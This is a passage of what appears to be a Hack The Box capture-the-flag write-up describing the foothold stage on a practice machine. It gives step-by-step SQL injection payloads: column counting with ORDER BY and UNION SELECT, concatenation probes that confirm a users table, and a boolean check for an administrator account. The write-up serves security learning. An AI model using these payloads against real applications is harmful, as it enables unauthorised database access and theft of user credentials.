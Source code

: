 ### Part 2: Foothold

by submitting : `'order by 3--+` till it gives error, from error we can see that it uses mariadb
or we can use:

```
ad'union select null,null,null,null,null,null,null,null,null from dual--
```

when we query nine column it says successfully sent request code, so we should use nine column from now in our sql query.
by submitting

```
'||(SELECT '' FROM table)||'
```

it gives error and querying using

```
ad'||(SELECT '' FROM users)||'
```

It gives successful output

![NMAP](/static/writeups/HTB-S-VI/monitors/5.png)

now we know there is a table called users.
To enumerate user, i first used username administrator

```
ad' ||((SELECT 'a' FROM users WHERE username='administrator')='a')||'
```

